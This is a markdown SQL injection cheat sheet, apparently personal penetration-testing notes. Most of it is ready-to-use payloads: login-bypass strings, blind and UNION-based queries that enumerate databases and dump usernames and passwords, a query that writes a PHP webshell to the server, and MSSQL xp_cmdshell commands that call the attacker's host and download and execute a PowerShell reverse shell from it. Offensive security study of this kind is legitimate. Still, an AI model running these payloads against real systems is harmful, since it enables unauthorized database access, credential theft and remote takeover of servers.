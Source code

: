 ## Portswigger Cheatsheet
https://portswigger.net/web-security/sql-injection/cheat-sheet

## Payloads
```
'
)'
"
`
')
")
`)
'))
"))
`))
'-SLEEP(30); #
```
## Login Bypass
Both user and password or specific username and payload as password
```
' or 1=1 --  
' or '1'='1  
' or 1=1 --+  
user' or 1=1;#  
' and 1=1#  
user' or 1=1 LIMIT 1;#
user' or 1=1 LIMIT 0,1;#
offsec' OR 1=1 -- //
' or 1=1 in (select @@version) -- //  
' OR 1=1 in (SELECT * FROM users) -- //
```
If query accepts only one column  
```
' or 1=1 in (SELECT password FROM users) -- //
```
To retrieve specific user password  
```
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //

sql = "select count(user_name) from web_users where user_name='" + username + "' and password='" + userpass + "'";
```
Note : // Comment Indicaated php is used in application

## Boolean Based Blind SQLI :
```
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
```

## Time Based Blind SQLI
```
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```
Note : When testing for blind we cant always expect 5xx when statement is wrong. Look if we get results if statement is correct, if statement is wrong we don’t get results.

### Identify Columns
Increment no. till we identify no. of columns
```
' order by 1--
' order by 2-- 
```
use the count of null identified using order bt
```
'union select null--
```
Identify version and others using cheaatsheet
```
'union select @@version,null--
```
Identifying Name of Databases
```
'union SELECT schema_name,null,null,null FROM information_schema.schemata--
```
Identifying Name of Tables present in a particular DB
```
' union SELECT TABLE_NAME,null,null,null FROM information_schema.TABLES WHERE table_schema='Staff'--
```
Identifying Column name of a particular table
```
' union SELECT column_name,null,null,null FROM information_schema.columns WHERE table_name = 'StaffDetails'--
```
Dumping Data
(last dbname.tablename)(else use database name at last its enough)
```
' union SELECT group_concat(Username,":",Password),null,null,null FROM users.UserDetails--
```

### Making it Readable
```
cat userPass | tr "," "\n" (userPass is dumped data file)
cut -d ":" -f1 userPass | tee -a user  
cut -d ":" -f1 userPass | tee -a pass
```

## RCE
#### MYSQL
Note : directory must be writable to OS user
```
' UNION SELECT "<?phpsystem($_GET['cmd']);?>",null,null,null,null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
Access File 
```
/tmp/webshell.php?cmd=id
```

#### MSSQL
Activate web server on our kali
```
python3 -m http.server 8080
```
Try to access 
```
';execmaster..xp_cmdshell 'powershell -c Invoke-WebRequest "http://kaliip:8080/p" -Method HEAD'--
```
Got Hit, try to 
```
';exec master..xp_cmdshell 'powershell -enc ajsbJDB'--
```
Reference : 
https://ansar0047.medium.com/blind-sql-injection-detection-and-exploitation-cheatsheet-17995a98fed1

Another Method 
```
test';EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.45.240/rev.ps1") | powershell -noprofile'--
```